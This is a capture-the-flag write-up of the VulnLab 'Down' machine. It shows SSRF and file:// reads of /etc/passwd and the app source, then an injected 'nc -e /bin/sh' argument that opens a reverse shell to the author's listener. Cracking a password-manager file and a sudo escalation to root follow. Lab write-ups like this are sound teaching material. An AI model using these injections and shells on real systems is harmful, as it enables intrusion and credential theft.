

# Down

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Down** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.80.76
```



Now let’s go and enumerate the website running on port 80


The web application has a simple functionality that check if the website is down or not.

Now let’s open a http server and try to request ourselves

```bash
python3 -m http.server 80
```


Now let’s enter our host in the application

```bash
http://10.8.5.233
```


Now let’s see if we go a request!


and we Did!

Now let’s try Server-Side Request Forgery (SSRF)

```bash
http://127.0.0.1
```


Okay nice we got a response back.

Now let’s try to fuzz the localhost ports using FFUF

First let us create a port wordlist

```bash
for i in {1..65535}; do echo $i >> ports.txt; done
```


Now let’s use FFUF

```bash
ffuf -u "http://10.10.80.76/index.php" -X POST --data "url=http://127.0.0.1:FUZZ" -w ports.txt -fw 131
```


Unfortunately no luck! 😓

Let’s go back to our website and try to add the file wrapper after the valid URL

```bash
http://10.8.5.233/ file:///etc/passwd
```


and we did it we have a Local File Inclusion so let’s go and read the source code of the application.

```bash
http://10.8.5.233/ file:///var/www/html/index.php
```


> Amazing! we got the application source code.
> 

Now let’s start analysis.

```php
if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">'; 
```


> Notice that there is an advanced feature named expertmode this allow us to execute nc in the server terminal
> 

now let’s try to abuse it

First go to the website and enable the expert mode through the expertmode GET parameter.

```bash
http://10.10.80.76/index.php?expertmode=tcp
```


notice that the design changed!

Now open a listener on your machine 

```bash
nc -nlvp 1337
```


no go back to the website and enter you IP in the IP filed and you port in the port tab and intercept the request.


Now let’s intercept the request.


now in the port parameter append the following

```bash
-e /bin/sh
```


That will till the nc to execute the bash to us.

now send and go back to our listener.


now let’s stable the shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


now press CTRL + Z


now let’s enter this in the terminal

```python
stty raw -echo;fg
```


last enter this command

```python
export TERM=xterm
```


now we got full stable shell

also we got the flag yeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeah!


now let’s try to get root privilege

navigate to the local user directory

```python
cd /home/aleks/.local/share/pswm
```


Notice that we found the user password manager so let’s use pswm-decryptor to decrypt it.

```python
cat pswm
```


now let’s run the decryptor

```python
python3 pswm-decrypt.py -f pswm -w /usr/share/wordlists/rockyou.txt 
```


notice that we decrypted the passwords and got the password for the user Aleks.

Now let’s login via SSH

```python
ssh aleks@10.10.80.76
```


and we logged it! 

Now let’s try to see our privileges on the machine

```python
sudo -l
```


notice that we can run everything as root!

```python
sudo su
```


now let’s cd to the root directory and see the flag!

```python
cd /root;ls -las
```


Amazing I did it!


That’s it for the **Down** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX